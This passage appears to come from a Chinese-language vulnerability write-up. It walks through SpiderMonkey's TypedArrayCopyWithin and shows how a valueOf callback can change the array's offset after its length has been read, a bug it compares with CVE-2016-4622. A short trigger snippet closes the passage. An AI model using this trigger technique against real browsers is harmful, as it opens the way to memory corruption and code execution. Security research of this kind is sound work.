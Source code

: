 这里假设还是`a=new Uint8Array(new ArrayBuffer(0x60))` , 执行`a.copyWithin(0, 0x20,0x28)`

```
function TypedArrayCopyWithin(target, start, end = undefined) `{`
    // This function is not generic.
    if (!IsObject(this) || !IsTypedArray(this)) `{`
        return callFunction(CallTypedArrayMethodIfWrapped, this, target, start, end,
                            "TypedArrayCopyWithin");
    `}`
    GetAttachedArrayBuffer(this);

    var obj = this;
    // len == 0x60
    var len = TypedArrayLength(obj);

    var relativeTarget = ToInteger(target);
    // to == 0
    var to = relativeTarget &lt; 0 ? std_Math_max(len + relativeTarget, 0)
                                : std_Math_min(relativeTarget, len);


    var relativeStart = ToInteger(start);
    // from  == 0x20
    var from = relativeStart &lt; 0 ? std_Math_max(len + relativeStart, 0)
                                 : std_Math_min(relativeStart, len);

    var relativeEnd = end === undefined ? len
                                        : ToInteger(end);
    // final == 0x28
    var final = relativeEnd &lt; 0 ? std_Math_max(len + relativeEnd, 0)
                                : std_Math_min(relativeEnd, len);

       // count == 0x8
    var count = std_Math_min(final - from, len - to);

   //.. memmove
    if (count &gt; 0)
        MoveTypedArrayElements(obj, to | 0, from | 0, count | 0);

    // Step 18.
    return obj;
`}`
```

这里首先获取了`len == 0x60` , 然后用`ToInteger` 分别获取`start` 和 `end` 的值，这里其实就和saelo发现的jsc `cve-2016-4622` 差不多，先获取了len, 但是在`ToInteger` 里面`len` 可能会被更改，加入运行下面代码

```
a.copyWithin(`{` 
    valueOf: function() `{` 
        a.offset = 0x58 ; 
        return 0x0; 
    `}` `}`, 0x20, 0x28);
```
